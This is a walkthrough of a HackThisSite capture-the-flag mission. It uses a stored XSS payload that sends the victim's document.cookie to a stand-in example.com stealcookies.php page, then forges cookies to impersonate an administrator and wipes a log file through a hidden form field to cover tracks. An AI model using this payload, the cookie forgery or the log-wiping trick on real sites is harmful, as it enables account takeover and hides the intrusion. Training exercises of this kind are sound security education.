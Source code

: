 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friend-s-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss--cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a look at the pages we can access without needing to log in. Contact leads to a generic form to send a message to the company, nothing fancy there. But the Mailing List and Demo pages drop an important clue. On the Mailing List page, it's the form which has this line: `<input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom, directory listing is on. Click through the folders and you'll notice a log file at ./files/logs/logs.txt. It seems to record login data. Thinking back to our steps in [Realistic Mission 8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md), we'll probably need to clear logs in this mission as well once we pay our friend.

We've learned an important insight, but for now, let's focus on paying our friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account credentials he provided. Once we're logged in, you'll notice a cookie gets saved to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries. Click it right now and you'll get a message saying: You are not an administrator.

I spent a while looking into [privilege escalation](https://portswigger.net/web-security/access-control), my thinking being that maybe there was some way to give our friend's account administrator privileges and then be able to pay his salary. That approach didn't really pan out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private Message functionality. The functionality is actually vulnerable to a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack, meaning we can inject JavaScript into a page and execute it in another user's browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so we've got to simulate it and think through it to the best of our ability. When the boss opens your message, his browser will execute this code (because the web application doesn't properly filter out rogue JavaScript) and it will redirect his browser to http://example.com/stealcookies.php?[his_login_cookie]. In this simulation the idea would be that you control the site in question – which in this case is example.com – and stealcookies.php is a script which would save your boss' cookie for you to retrieve later. The script might just save the data to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying something like this:
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS attack, so we just got the cookie information provided to us. We could have probably guessed the boss would have intID=1, but we wouldn't have known his password (either the plain text version or the hashed version). But now we've got it all. Update your cookie to reflect the indID, strPassword, and strUsername values we've now obtained and we're now effectively logged in as the boss. Click the Pay Salaries link and click the Pay button next to your friend's email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by subscribing to them. This goes back to what we saw earlier, before logging in. We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how to accomplish these steps. If we go to the Mailing List page, there's this message:
(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at ./files/logs/logs.txt. So, change the value of the hidden input type to that file path, click Subscribe, and you're done. This functionality will clear the log file and we've completed the mission.

## Key Concepts
Cookie tampering
Cookie stealing
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what really allowed us to complete the mission. Modern practices call for things like authentication cookies which the backend validates to make sure a user isn't editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major web security issue. Any time someone can inject rogue JavaScript onto a page which can then be executed in the browser of another user, that's a big problem. There's no shortage of malicious things an attacker can do using an XSS bug, but stealing cookies is a common one. That's why companies often allocate major resources -- including paying cash rewards -- to people who identify and report XSS vulnerabilities.
